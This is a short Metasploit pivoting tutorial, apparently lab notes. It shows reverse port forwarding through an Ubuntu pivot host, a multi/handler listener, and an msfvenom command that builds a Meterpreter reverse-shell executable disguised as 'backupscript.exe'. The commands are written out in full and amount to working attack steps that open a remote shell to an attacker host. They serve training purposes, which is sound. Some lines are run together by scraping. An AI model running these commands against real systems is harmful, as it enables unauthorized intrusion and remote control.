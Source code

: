 Metasploit can also perform reverse port forwarding with the below command, where you might want to listen on a specific port on the compromised server and forward all incoming shells from the Ubuntu server to our attack host.
This command forwards all connections on port 1234 running on the Ubuntu server to our attack host on local port (-l) 8081. We will also configure our listener to listen on port 8081 for a Windows shell.
```
portfwd add -R -l 8081 -p 1234 -L 10.10.14.18Configuring & Starting multi/handler
```
## Configuring & Starting multi/handler
```
bg
```
```
set payload windows/x64/meterpreter/reverse_tcp
```
```
set LHOST 0.0.0.0
```
```
set LPORT 8081
```
```
run
```
Create a reverse shell payload that will send a connection back to our Ubuntu server on 172.16.5.129:1234 when executed on our Windows host. Once our Ubuntu server receives this connection, it will forward that to attack host's ip:8081 that we configured.
1. Generating the Windows Payload
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.5.129 -f exe -o backupscript.exe LPORT=1234
```
2. Transfer to Ubuntu Pivot Host
3. Transfer from Ubuntu Pivot Host to Windows Host
4. Execute backupscript.exe payload
5. Shell pivoted via the Ubuntu Server
6. Meterpreter shell